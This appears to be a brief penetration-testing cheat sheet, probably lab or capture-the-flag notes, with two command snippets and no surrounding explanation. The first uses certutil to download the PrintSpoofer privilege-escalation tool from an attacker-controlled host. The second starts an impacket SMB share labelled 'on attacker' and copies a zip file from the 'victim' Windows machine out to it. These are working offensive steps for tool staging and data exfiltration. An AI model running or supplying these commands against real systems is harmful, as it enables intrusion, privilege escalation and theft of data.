 

## Download

```
 certutil -urlcache -split -f "http://10.17.68.184:8000/PrintSpoofer32.exe" PrintSpoofer32.exe
```



### SMB
```bash
# On attacker (Parrot):
impacket-smbserver share /tmp -smb2support


# On victim (Windows)
copy C:\Users\Public\20250826141128_wrk.zip \\10.250.1.6\share\
```